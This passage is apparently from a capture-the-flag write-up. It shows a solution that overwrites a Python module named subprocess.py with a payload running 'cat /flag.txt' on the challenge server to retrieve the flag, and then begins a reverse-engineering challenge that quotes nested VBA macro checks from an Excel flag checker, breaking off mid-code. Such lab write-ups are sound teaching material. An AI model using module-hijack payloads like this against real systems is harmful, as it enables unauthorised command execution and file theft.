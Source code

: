 ```

```

The code worked as intended and now I knew the flag location, so I changed the code and retrieved it:

```
...
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: subprocess.py
Data: import os; os.system("cat /flag.txt");
Data written sucessfully!
...
└─$ nc challs.n00bzunit3d.xyz 10357
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_fa5e3763f6a8}
...
```

FLAG: `n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_fa5e3763f6a8}`

## [REV] FlagChecker

> Why did the macros hide its knowledge? Because it didn't want anyone to "excel"! Note: `char_21` is the SAME as `char_22`
Note 2: The correct flag has ALL LOWERCASE, NUMBERS, `n00bz{}` AND UNDERSCORES (There's two underscores in the entire flag)
Author: NoobMaster
>
> Files: FlagChecker.xlsm
> 

For this challenge we are given an EXCEL file that contains some macro inside. This has a series of checks that verify if the flag has been correctly inserted:

```vbnet
Option VBASupport 1
Sub FlagChecker()

    Dim chars(1 To 24) As String
    guess = InputBox("Enter the flag:")
    If Len(guess) <> 24 Then
        MsgBox "Nope"
    End If
    char_1 = Mid(guess, 1, 1)
    char_2 = Mid(guess, 2, 1)
...
   If (Asc(char_1) Xor Asc(char_8)) = 22 Then
        If (Asc(char_10) + Asc(char_24)) = 176 Then
            If (Asc(char_9) - Asc(char_22)) = -9 Then
                If (Asc(char_22) Xor Asc(char_6)) = 23 Then
                    If ((Asc(char_12) / 5) ^ (Asc(char_3) / 12)) = 130321 Then
                        If (char_22 = char_11) Then
                            If (Asc(char_15) * Asc(char_8)) = 14040 Then
                                If (Asc(char_12) Xor (Asc(char_17) - 5)) = 5 Then
                                    If (Asc(char_18) = Asc(char_23)) Then
                                        If (Asc(char_13) Xor Asc(char_14) Xor Asc(char_2)) = 121 Then
                                            If (Asc(char_14) Xor Asc(char_24)) = 77 Then
                                                If 1365 = (Asc(char_22) Xor 1337) Then
                                                    If (Asc(char_10) = Asc(char_7)) Then
                                                        If (Asc(char_23) + Asc(char_8)) = 235 Then
                                                            If Asc(char_16) = (Asc(char_17) + 19) Then
```